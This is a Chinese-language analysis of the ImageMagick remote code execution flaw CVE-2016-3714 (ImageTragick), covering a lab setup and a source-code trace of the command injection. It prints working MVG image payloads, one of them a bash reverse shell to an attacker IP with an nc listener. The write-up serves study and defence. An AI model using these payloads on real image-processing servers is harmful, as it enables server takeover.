# ImageMagick远程代码执行漏洞分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞编号： CVE-2016-3714
* 发现人员： Slack安全工程师Ryan Hube
* 漏洞简述： 产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。
* 影响版本： 
	* ImageMagick6.5.7-8 2012-08-17
	* ImageMagick6.7.7-10 2014-03-06
	* 低版本至6.9.3-9 released 2016-04-30 

## 2.&emsp;漏洞分析 ##

### 2.1&emsp;漏洞介绍 ###

&emsp;&emsp;ImageMagick是一套功能强大、稳定而且开源的工具集和开发包,可以用来读、写和处理超过89种基本格式的图片文件,包括流行的TIFF、JPEG、GIF、 PNG、PDF以及PhotoCD等格式。众多的网站平台都是用他渲染处理图片。可惜在3号时被公开了一些列漏洞,其中一个漏洞可导致远程执行代码(RCE),如果你处理用户提交的图片。该漏洞是针对在野外使用此漏洞。许多图像处理插件依赖于ImageMagick库,包括但不限于PHP的imagick,Ruby的rmagick和paperclip,以及NodeJS的ImageMagick等。

&emsp;&emsp;产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

&emsp;&emsp;据ImageMagick官方，目前程序存在一处远程命令执行漏洞（CVE-2016-3714），当其处理的上传图片带有攻击代码时，可远程实现远程命令执行，进而可能控制服务器，此漏洞被命名为ImageTragick。

### 2.2&emsp;漏洞环境搭建 ###

1. 首先我们需要一台Linux虚拟机（这里我用的是Ubuntu14.04）
2. 找到相应的有漏洞的ImageMagick版本源码进行源码安装**注意：这个进行源码安装时可能会存在安装时先安装他的依赖包否则安装会报错**
3. 安装完成，使用命令`convert -version`查看安装是否成功，并且查看版本是否正确
4. 要实现远程代码执行，还需要自己搭建一个服务器
5. 安装Apache+php，实现一个上传图片的网站，同时调用imagemagick的convert命令实现缩略图功能。

### 2.3&emsp;漏洞验证 ###
#### 2.3.1&emsp;本地代码执行验证 ####

漏洞利用POC：

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://evalbug.com/"|whoami")'
	pop graphic-context

把POC代码编辑到poc.png图片中，然后执行convert命令：

	 convert poc.png 1.png

查看返回结果：

可以看到命令`whoami`已经执行并且返回出了结果。同理可以把whoami换成其他你想执行的任意命令。

#### 2.3.2&emsp;远程代码执行验证 ####

1. 访问自己搭建的上传图片网站进行上传图片操作


2. 构造反弹shell命令POC:
	
		push graphic-context
		viewbox 0 0 640 480
		fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.79/2333 0>&1")'
		pop graphic-context"
3. 将POC存入test.png图片中，进行图片上传操作，同时在你的攻击机（192.168.1.79）中输入命令`nc -ll -v -p 2333`对2333端口进行监听
4. 上传图片查看shell是否已经反弹



## 3.&emsp;CVE-2016-3714漏洞分析 ##

### 3.1&emsp;源代码分析 ###

&emsp;&emsp;在ImageTragick中，众所周知，其实被处理的文件并不是一个图片，而是一段被IMK处理的“脚本”。在软件中对fill关键字的处理如下：


可以看到该处在进行了一系列判断后，调用了ReadImage函数，此时：


从图中可以看出，drawImage传给ReadImage的参数还仍然是我们定义的参数字符串，

在文件magick/consititute.c中的352-767行定义了ReadImage函数，而该函数中在523行调用了InvokeDelegate函数：


同时在Ubuntu图中，可以看到该处调用INVOKEDELEGATE函数时的参数中，把开头的https给去掉了。InvokeDelegate函数定义在magick/delegate.c中的1075-1327行，其中可看到代码又调用了ExternalDelegateCommand函数：


从Ubuntu图中可看到传给ExternalDelegateCommand函数中的command参数已经变成了拼接后的字符串，并且是一个完整的管道符号链接的两条命令。往上看代码可发现command参数主要是InterpretImageProperties函数的返回值，而InterpretImageProperties函数只是负责把传入的字符串的特殊字符进行转义、外加字符串处理（比如对%exif %filename %basename等字符串的处理，产生类似正则表达式引擎的效果）。


这里，会来到一个比较有意思的地方：



该处会调用GetMagickPropertyLetter函数，我们跟进去看一下：

也就是该函数会对传进来的字符返回特定的字符串。在KALI图中已经看到，传递进来的参数是：curl –s –k –L –o “xxx” https://%M，所以这里要替换的就是大写M：



可看到这里是直接返回了image->magick_filename，其实就是那串没了https:开头的URL，所以返回给GetMagickPropertyLetter函数的就是URL，而后如图所GetMagickPropertyLetter函数直接把返回内容AppendString2Text了。

**这就真的是直接拼接出来了带有恶意命令的字符串，所以其实自始至终都没有一个对字符串的过滤操作。**

当从InterpretImageProperties函数返回后，就进入了ExternalDelegateCommand函数，而参数也已经是注入了额外命令的CURL字符串。
 

在ExternalDelegateCommand函数内，command会被直接system执行起来而导致命令注入。

另外，在InterpretImageProperties函数的代码中，可以看到对&lt &gt等做出了处理，将实体字符转义为原字符，所以在其他的处理脚本委托时，不排除引起跨站的可能性。并且在代码中，还发现MP4也是相同的函数引用路径对MP4文件的URL进行获取数据，所以MP4那个利用原理相同。另外，**代码中还发现很多方式的委托相互交叉引用，相信还有其他的利用方式，有待发掘。**

### 3.2&emsp;漏洞利用点 ###

所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://"|id; ")'
	pop graphic-context

这样，ImageMagick在正常执行图片转换、处理的时候就会触发漏洞。

## 4.&emsp;参考资料 ##

* [ImageMagick 命令执行漏洞 (ImageTragick)](https://www.seebug.org/vuldb/ssvid-91446 "https://www.seebug.org/vuldb/ssvid-91446")
* [[深度技术分析] ImageTragick漏洞原理](http://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd "http://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd")
* [CVE-2016-3714ImageMagick远程执行漏洞修复建议](http://bobao.360.cn/learning/detail/2862.html "http://bobao.360.cn/learning/detail/2862.html")
* [ImageMagick（CVE-2016-3714）执行过程，漏洞分析以及修复方案](http://www.freebuf.com/vuls/104048.html "http://www.freebuf.com/vuls/104048.html")

